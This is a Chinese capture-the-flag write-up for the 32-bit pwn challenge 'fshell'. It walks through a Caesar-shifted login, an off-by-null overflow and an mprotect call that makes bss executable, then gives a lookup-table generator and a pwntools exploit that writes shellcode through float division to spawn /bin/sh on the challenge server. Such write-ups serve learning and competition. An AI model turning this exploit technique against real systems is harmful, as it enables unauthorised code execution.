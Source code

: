 # fshell

> 你知道 IEEE754 吗

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x32   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |static|

## 解题思路

和刚打完的上海赛差不多

程序里貌似带了花指令，去花后是菜单题。要做其他操作，需要先login

> 32位程序静态编译还去符号，好多函数一眼都看不出来

login中需要输入用户名和密码，就是2个`strcmp`的事情，用户是`user`，
密码在输入后做凯撒密码，偏移为9，需要注意的是程序初始化时加密了`password`，偏移是8

回到主菜单，发现在输入6时触发了`mprotect`，再看decrypt的语句下面还有一串奇怪的逻辑，跟一下

```c
...
            if ((char)susch == '\0') {
                *(int *)((int)piVar1 + -0x10) = (offset % 0xc + 5) * 0xc;
                *(undefined4 *)((int)piVar1 + -0x14) = 0x804a5a1;
                sus();
            }
 ...
 void sus(int offset) {
 ...
     while ((i < 0x16 && (scan != 0))) {
        scan = scanf("%d",&val);
        calc = (float)((long double)val / (long double)offset);
        if (*(byte *)((int)&calc + 3) < 0x4b) break;
        *(float *)(FUN_08105300 + i * 4) = calc;
        i += 1;
    }
    FUN_08105300();
...
}
```

先回到`main`的逻辑上，输入3输入`offset`，进入`sus`时将`(offset % 0xc + 5) * 0xc`作为参数，
即 **60** ；然后`scanf("%20s", buf)`通过输入20个字符可以触发off-by-null覆写 `susch` 为0，
进入`sus`函数；但是函数`FUN_08105300`在bss上，不可执行，而通过输入6可以mprotect bss为可执行

可以看到`sus`又是除法写shellcode，考虑到正推准确性不足，直接打表

```c
// tab.c
// gcc -o tab -m32 tab.c
#include <stdio.h>

int main(void) {
    int tmp;
    for (int i = 0; i < 4096; i++) {
        char file[20];
        snprintf(file, 20, "data/table%04d", i);
        FILE *tab = fopen(file, "wb");   
        for (int j = 0; j < 1048576; j++) {
            long double x = (long double)((unsigned int)(i << 20) | j)/(long double)60;
            *(float *)&tmp = (float)x;
            fwrite(&tmp, 1, 4, tab);
        }
        fclose(tab);
    }
}
// mkdir data && ./tab
// cd data && cat * > ../table && cd .. && rm -rf data
```

`sus`中还要求输入的shellcode每4个字节中的最后一个字节需要**大于**等于0x46

然后放到ImHex里面爆搜找shellcode，将需要的shellcode的地址除以4（shellcode与4对齐）
便是随后需要输入的数字

![imhex](assets/imhex.png)

先看一眼进入函数时的寄存器布局

![regs](assets/regs.png)

原地构造read再把`execve("/bin/sh", 0, 0)`写上去比较好

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fshell'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x804a209\nc')
    else:
        sh = remote('pwn-89e38f258e.challenge.xctf.org.cn', 9999, ssl=True)
    elf = ELF(EXE)

    # login first
    sh.sendlineafter(b'@@', b'1')
    sh.sendlineafter(b'username', b'user')
    sh.sendlineafter(b'password', b'ozrrvnqc')

    # mprotect to make bss executable
    sh.sendlineafter(b'@@', b'6')

    # decrypt
    sh.sendlineafter(b'@@', b'3')
    sh.sendlineafter(b'offset', b'0')
    sh.sendlineafter(b'string', b'0'*20) # overflow: off-by-null, trigger sus

    # read(0, 0x8105300, 0x50)
    nums = [0x7B33AA88 // 4,    # push eax; push 0x3; dec ebx
            0xC363B208 // 4,    # pop eax; push 0x50; dec ebx
            0xD073C400 // 4,    # pop edx; pop ecx; pop esi; dec ebx
            0x7863B7A8 // 4,    # pop esi; push 0; dec ebx
            0xF1810A00 // 4,    # pop ebx; int 0x80; dec ebx
            0]                  # exit number input
    for num in nums:
        sh.sendline(str(num).encode())
    sleep(0.5) # wait for shellcode read
    sh.sendline(b'0'*19 + asm(shellcraft.sh()))
    
    sh.clean()
    sh.interactive()
```
